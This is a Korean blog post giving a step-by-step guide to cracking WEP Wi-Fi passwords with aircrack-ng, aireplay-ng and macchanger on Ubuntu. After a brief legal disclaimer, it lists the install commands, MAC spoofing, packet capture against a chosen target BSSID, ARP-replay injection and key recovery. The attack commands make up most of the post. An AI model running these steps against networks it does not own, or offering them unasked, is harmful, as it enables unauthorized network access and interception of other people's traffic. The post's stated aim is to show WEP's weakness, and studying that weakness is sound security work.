

**aircrack-ng으로 WEP보안 WI-FI 해킹하기**

이 게시글을 공개하기까지 많은 고민을 했습니다.

그러나 WEP보안방식의 헛점을 알려드리기 위해 포스팅 합니다.

**남의 공유기를 해킹하는것은 불법입니다 꼭 자신의 공유기에 테스트 목적으로만 사용하세요!**

WEP는 구형 기기(닌텐도등)에서 주로 쓰였지만 보안 방식의 헛점으로 지금은 사용되지 않는 보안 방식입니다.

현재 최신 기기들은 모두 보안이 강화된 WPA-PSK방식등을 사용합니다.

이 게시글에서는 aircrack-ng과 machanger를 이용해 WEP 공유기의 비밀번호를 해킹해 보겠습니다.

리눅스(우분투) 환경에서 하시는것을 추천드리며, 이 글도 우분투를 기준으로 작성됩니다.

먼저 aircrack-ng를 다운로드 해봅시다.

sudo apt-get install build-essential

sudo apt-get install libssl-dev

wget http://download.aircrack-ng.org/aircrack-ng-1.1.tar.gz

tar -zxvf aircrack-ng-1.1.tar.gz

cd aircrack-ng-1.1

make

sudo make install

sudo airodump-ng-oui-update

설치가 모두 완료되었다면 aircrack-ng라고 터미널에 쳐주세요.

$aircrack-ng

사진 출처 : <http://blog.naver.com/skyvvv624/194565936>

사용방법이 나타난다면 정상적으로 설치가 된것입니다.

그런대 aircrack-ng에 대한 사용법이 명쾌하게 나온 글이 없어서 하나는 동영상으로, 하나는 글로 설명해 드리겠습니다.

1. 동영상

[임베드 콘텐츠: https://play-tv.kakao.com/embed/player/cliplink/v5a75KSXoKnWnnndXiSiXpQ?service=daum_tistory](https://play-tv.kakao.com/embed/player/cliplink/v5a75KSXoKnWnnndXiSiXpQ?service=daum_tistory)

[임베드 콘텐츠: https://play-tv.kakao.com/embed/player/cliplink/v106byU2F2GKsGGwALuFULA?service=daum_tistory](https://play-tv.kakao.com/embed/player/cliplink/v106byU2F2GKsGGwALuFULA?service=daum_tistory)

동영상 출처 : <http://juneny.wo.tc/265>

2. Machanger를 이용한 방법

sudo apt-get install macchanger

ipconfig으로 랜카드 이름(예를들면 wlan0)을 알아내주세요.

airmon-ng stop wlan0

ifconfig wlan0 down

macchanger --mac 00:11:22:33:44:55 wlan0

airmon-ng start wlan0

airodmp-ng wlan0

목록이 뜨면 보안방식이 WEP인 AP를 찾아주세요.

airodump-ng -c [채널] -w [파일저장이름] --bssid [bssid] wlan0

AP에 대한 패킷을 캡쳐하기 시작합니다

새로운 터미널을 열은 후, 아래를 입력합니다.

aireplay-ng -1 0 -a [공격할공유기맥주소 : bssid] -h 00:11:22:33:44:55 wlan0

aireplay-ng -3 -b [bssid] -h 00:11:22:33:44:55 wlan0

데이터 패킷을 모으기 시작합니다.

패킷이 1000이상 모이면 세번째 창을 킨다음,

aircrack-ng -b [bssid] [파일저장이름]

키가 찾아졌다고 하면 비밀번호가 찾아진겁니다. ㅎ

첨부파일

출처 : <http://blog.naver.com/kkh0879/70125177862>

<http://blog.naver.com/skyvvv624/194565936>

<http://khanlime.blog.me/20179034865>

<http://juneny.wo.tc/265>
